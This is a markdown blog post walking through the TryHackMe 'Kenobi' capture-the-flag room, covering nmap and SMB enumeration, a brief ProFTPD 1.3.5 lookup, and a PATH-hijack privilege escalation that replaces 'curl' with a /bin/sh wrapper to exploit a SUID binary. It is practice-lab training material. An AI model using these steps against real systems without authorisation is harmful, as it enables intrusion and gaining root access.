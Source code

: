```yaml
---
date: '2025-02-01T22:59:59+05:30'
draft: false
title: 'Kenobi: TryHackMe Walkthrough'
slug: kenobi-thm-walkthrough
tags: ["tryhackme", "ctf", "pentesting", "linux"]
category: writeups
showtoc: true
summary: A detailed walkthrough of the Kenobi room on TryHackMe, covering port scanning, SMB enumeration, ProFTPd exploitation, and privilege escalation
description: Complete walkthrough of TryHackMe's Kenobi room demonstrating various penetration testing techniques including port scanning, SMB enumeration, and privilege escalation
---
```


# Kenobi: TryHackMe Walkthrough

## Port Scan

Initial port scan using nmap revealed several open ports:

```bash
nmap -sV -vv 10.10.196.59
```

Discovered services:
- Port 21: ProFTPD 1.3.5
- Port 22: OpenSSH 7.2p2 Ubuntu
- Port 80: Apache httpd 2.4.18
- Port 111: rpcbind
- Port 139/445: Samba (WORKGROUP)
- Port 2049: nfs_acl

Target identified as KENOBI running Linux.

## Enumerating Samba for shares

Two methods were employed for SMB enumeration:

### 1. Using enum4linux
### 2. Using nmap scripts

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>
```

### Key Findings
- Anonymous share discovered with anonymous login permitted
- Retrieved log.txt containing:
  - ProFTPd configuration information
  - SSH creation logs
  - Various usernames
- Full share download accomplished using:

```bash
smbget -R smb://ip/anonymous
```

Additional enumeration of RPC (port 111) revealed a mounted /var folder.

## Gaining access with ProFTPd

The target was running ProFTPD version 1.3.5 as identified in the initial scan.

Initial connection established using netcat:
```bash
nc ip 21
```

Vulnerability research was conducted using searchsploit for the specific ProFTPd version.

## Privilege Escalation

The privilege escalation process involved the following steps:

1. SUID/SGID file enumeration:
```bash
find / -perm -u=s -type f 2>/dev/null
```

2. Exploit creation:
```bash
echo /bin/sh > curl
chmod 777 curl
```

3. Path manipulation and execution:
   - Added current directory to path
   - Executed `/usr/bin/menu` binary to achieve privilege escalation
